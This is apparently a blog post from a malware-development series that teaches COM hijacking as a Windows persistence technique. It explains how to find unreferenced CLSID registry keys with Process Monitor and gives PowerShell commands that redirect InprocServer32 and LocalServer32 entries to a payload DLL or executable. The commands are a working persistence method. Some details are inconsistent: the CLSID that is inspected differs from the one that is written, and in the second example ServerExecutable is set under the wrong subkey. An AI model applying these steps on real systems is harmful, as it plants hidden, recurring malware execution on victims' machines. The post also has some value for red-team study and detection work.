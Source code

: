 ```yaml
---
layout: post
title: COM Hijacking
date: 2023-12-22
categories: [Malware Development, Persistence]
tags: [persistence]     
---
```


> COM is a system within Windows to enable interaction between software components through the operating system. 
  References to various COM objects are stored in the Registry

- https://attack.mitre.org/techniques/T1546/015/

We can establish persistence through COM by hijacking a COM object. When the tampered object is referenced, our payload will be executed in place of the original software component. Hijacking COM objects that are in use can lead to broken applications, so we should look for applications that try to reference broken/unused keys.

To achieve this we can use Process Monitor from the SysInternal suite. Apply these filters

- Operation -> is -> RegOpenKey
    
>   RegOpenKey opens the specified registry key. We use this filter because COM objects are stored in the registry

- Result -> is -> NAME NOT FOUND

>   We use this filter because we don't want to hijack COM objects that are in use

- Path -> ends with -> InprocServer32

>   This registry contains a 32-bit in-process server. In this context, that means a DLL that provides services to other applications

- Path -> ends with -> LocalServer32

>   This registry contains the full path to a COM server application. This means that we can specify the path to an executable which we want executed

Now we will be able to see every process activity that meets this critera. To speed things up, we can open random applications (like Access, Outlook and so on). We should look for an object that is not referenced very frequently, as executing the payload every second is not a good idea.


#### Example 1 - InprocServer32

Let's take for example this COM object, with the CLSID `{4590F811-1D3A-11D0-891F-00AA004B2E24}` (The CLSID is an unique identifier for COM class objects)

```
HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32
```

Let's check it's contents

```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\InprocServer32"

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment
```

If we can change the value of `(default)` from `C:\Windows\System32\thumbcache.dll` to our payload, persistence is succesfully established.

```PowerShell
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Path\To\payload.dll"
```
We also need to change the threading model to support both single threaded and multi-threaded mode.

```PowerShell
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

After we are done, we should delete the registry entry and DLL.

#### Example 2 - LocalServer32

We will consider an object with the same CLSID

```
HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\LocalServer32
```

Now the contents will be something to the likes of

```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{4590F811-1D3A-11D0-891F-00AA004B2E24}\LocalServer32"

Name                           Property
----                           --------
Localerver32                   (default)      : C:\Program Files\Microsoft Office\Office14\EXCEL.EXE
                               ServerExecutable : "C:\Program Files\Microsoft Office\Office14\EXCEL.EXE"
```

In this case we have to change the value of `(default)` and `ServerExecutable` to our payload, in PE format.

```powershell
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "LocalServer32" -Value "C:\Path\To\payload.exe"
```

```powershell
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ServerExecutable" -Value "C:\Path\To\payload.exe"
```

To clean up, delete the executable and the registry entry.

